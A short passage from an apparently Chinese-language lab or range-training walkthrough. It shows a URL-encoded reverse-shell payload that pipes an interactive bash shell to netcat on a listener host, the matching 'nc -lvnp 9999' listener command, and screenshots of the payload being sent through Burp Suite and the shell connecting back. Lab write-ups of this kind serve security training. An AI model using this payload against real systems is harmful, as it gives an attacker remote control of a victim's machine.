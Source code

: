 ```
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash+-i+2>%261|nc+192.168.231.128+9999+>/tmp/f
```

Kali开启监听

```
nc -lvnp 9999
```

BP 发送回弹

<img src="%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230527160647471.png" alt="image-20230527160647471" style="zoom:50%;" />

nc 成功回弹

<img src="%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230527160711327.png" alt="image-20230527160711327" style="zoom:50%;" />